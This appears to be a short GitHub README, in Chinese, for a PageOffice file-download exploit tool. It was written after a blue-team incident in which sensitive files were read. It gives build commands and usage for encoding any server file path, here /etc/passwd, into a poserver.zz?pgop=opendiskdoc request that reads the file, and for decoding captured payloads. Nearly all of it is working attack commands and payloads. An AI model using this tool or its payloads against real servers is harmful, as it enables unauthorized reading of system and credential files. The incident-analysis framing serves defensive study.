 # PageOffice_FileDownload
## 分析
某次蓝队防守时发现流量告警，读取了敏感文件。根据页面回显的版本从github找到相应jar进行审计。
## package
```
javac Main.java
jar -cvmf MANIFEST.MF PageOffice-FileDownload.jar *.class
```
## env
`jdk1.8`
## Usage
### 1. encode
```
java -jar PageOffice-FileDownload.jar encode /etc/passwd

encode payload:
poserver.zz?pgop=opendiskdoc&id=KmcgY3MtK3IpLSRfOXE9YmpkL2orbBdrKztnLDh2OCQpbSJyK2w4cj9uKzsXbiRqL2EXci9tIi0lYThjOCs5ciZjF2s=
```
### 2. decode
```
java -jar PageOffice-FileDownload.jar decode KmcgY3MtLG0jY2VxJnQjZSYxYjVlcStwOmMmcWVkOXEpbiZtKC58Ln8tOXIXcDhzJCs

decode payload:
file=/etc/passwd&filename=1.txt&contenttype=application/octet-stream
```
